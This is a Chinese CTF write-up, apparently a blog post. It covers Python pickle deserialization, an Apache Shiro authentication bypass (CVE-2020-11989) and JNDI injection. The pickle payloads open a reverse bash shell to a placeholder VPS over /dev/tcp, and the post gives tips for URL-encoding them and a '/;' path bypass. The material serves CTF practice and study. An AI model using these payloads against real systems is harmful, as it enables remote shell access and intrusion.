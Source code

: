 ————另外这里的payload也可以是简短版本的弹sehll的payload 不唯一嘛

```python
data = b'cconfig\nnotadmin\np0\n0g0\nS\'admin\'\nS\'yes\'\nscconfig\nbackdoor\np2\n0S\'__import__("os").system("bash -c \\\'exec bash -i &>/dev/tcp/you_vps_ip/port <&1\\\'")\'\np3\n0g2\n(g3\ntR.'
```

一个需要注意的点是由于这里的反序列化入口是get传参，所以遇到+号会出问题，传进去之前要先urlencode(encode all special chars)

————顺带练个手，搓一个不含`b'R'`的opcode（用`b'o'`代替）

```python
data = b'''cconfig\nnotadmin\np0\n0g0\nS\'admin\'\nS\'yes\'\nscconfig\nbackdoor\np2\n0S\'__import__("os").system("bash -c \\\'exec bash -i &>/dev/tcp/you_vps_ip/port <&1\\\'")\'\np3\n0(g2\ng3\no.'''
```

传参的时候记得再urlencode一下~~~

————之前我的[总结笔记](https://amiaaaz.github.io/2021/08/12/python-unserialize-notes-01-python/)已经相当全面了 ~~可以出CTF教科书了233333~~

## Jack-Shiro

属于是原题了属于是属于是属于是烤烂了已经，参见 [[红明谷CTF 2021] JavaWeb](https://www.zhaoj.in/read-6859.html#WEB1_javaweb)  |  [[天翼杯 2021] jackson](https://www.huamang.xyz/index.php/archives/99/)  |  [[NPUCTF2020] EzShiro](https://www.moonback.xyz/2020/01/16/buuctf%E5%88%B7%E9%A2%98-Java%E7%AF%87/#NPUCTF2020-EzShiro) ~~（虽然我自己根本没发现 实在是做过的题太少了 java更是不会 我的~~

/login下有个登录，回显/json，返回的cookie有个rememberMe=deleteMe，可以知道是shiro

访问/json，后面会带一堆get请求的参数，用/;/json绕过（cve-2020-11989）

上工具[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0)一把梭（问题出在我vps上没有java环境 端口转发又处了亿点点问题…… 所以没有带出来flag），是cve-2020-36188

![image-20211024041750586](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211024041750586.png)

哭哭

还有个工具是 [LdapBypassJndi](https://github.com/Firebasky/LdapBypassJndi)，差不多的；下面是跟一跟涉及到的几个链子

### CVE-2020-11989

参考：[Apache Shiro权限绕过漏洞分析(CVE-2020-11989)](https://mp.weixin.qq.com/s/yb6Tb7zSTKKmBlcNVz0MBA)  |  [Apache Shiro 身份验证绕过漏洞 (CVE-2020-11989)](https://xlab.tencent.com/cn/2020/06/30/xlab-20-002/)

Apache Shiro是一个常用的java安全框架，在1.5.3之前版本中当Shiro与Spring动态控制器一起使用时（Spring框架中只用Shiro鉴权），如果直接访问/shiro/admin/page会302跳转要求登录，而访问/;shiro/admin/page即可绕过权限验证，访问/admin的信息

#### 本地环境搭建&复现

有带佬直接写好的docker可以直接pull拿来用

```
docker pull jackey0/cve-2020-11989
docker run -p 8426:8080 <image> /bin/sh -c 'java -jar /springboot-shiro-0.0.1-SNAPSHOT.jar'
docker pull jackey0/cve-2020-13933
// docker start <container-id>
```
